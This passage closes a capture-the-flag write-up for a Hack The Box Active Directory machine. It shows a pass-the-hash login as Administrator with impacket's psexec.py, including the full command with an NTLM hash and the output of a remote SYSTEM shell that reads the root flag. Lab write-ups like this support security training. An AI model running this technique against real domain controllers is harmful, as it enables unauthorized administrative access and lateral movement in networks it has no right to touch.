 We can then use the [Path the hash](http://blog.gentilkiwi.com/tag/pass-the-hash)
technique with
[impacket's psexec.py](https://github.com/SecureAuthCorp/impacket/) to login as
Administrator on the Domain Controller as administrator and get the flag.

    :::text
    python psexec.py egotisticalbank.local/Administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.175.....
    [*] Found writable share ADMIN$
    [*] Uploading file NEOSMAXA.exe
    [*] Opening SVCManager on 10.10.10.175.....
    [*] Creating service RFiq on 10.10.10.175.....
    [*] Starting service RFiq.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.973]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
    f3ee04965c68257382e31502cc5e881f

# Wrapping up

This box is a lot like [Forest](todo link if article already published) and I
am a bit disappointed. Apart from that the box is interesting.

>What a journey. This box was classified as easy but probably needed a medium
>classification. WinRM is so *finicky*. The root part was interesting as it
>allowed us to play with AD privileges which doesn't happen a lot
>outside of client environments.

(Conclustion of [Forest](https://maggick.fr/2020/03/htb-forest.html))

